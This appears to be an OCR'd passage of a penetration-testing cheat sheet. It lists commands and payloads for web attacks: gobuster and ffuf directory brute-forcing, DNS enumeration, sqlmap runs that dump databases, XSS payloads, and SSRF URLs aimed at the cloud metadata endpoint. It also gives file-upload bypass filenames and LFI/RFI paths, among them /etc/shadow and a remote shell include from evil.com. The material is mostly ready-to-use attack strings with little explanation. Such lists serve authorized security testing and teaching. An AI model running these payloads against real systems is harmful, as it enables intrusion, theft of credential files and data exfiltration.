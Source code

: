 ### Gobuster / Dirsearch / FFUF
```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
ffuf -u http://target.com/FUZZ -w wordlist.txt -mc all
```

### DNS Enumeration
```bash
dig target.com any
host -t aaaa target.com
nslookup -query=mx target.com
```

---

## Web Application Attacks

### SQLMap
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs --risk=3 --level=5 --batch
sqlmap -r request.txt --technique=BEUSTQ --dump
```

### XSS Payloads
```html
<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
" onmouseover="alert('XSS')
```

### SSRF Test URLs
```
http://127.0.0.1:80
http://localhost/admin
http://169.254.169.254/latest/meta-data/
```

### File Upload Bypass
```
shell.php.jpg
image.php%00.jpg
Content-Type: image/png (actual payload inside)
```

### LFI/RFI
```
/etc/passwd
../../../../../../etc/shadow
http://evil.com/shell.txt
```
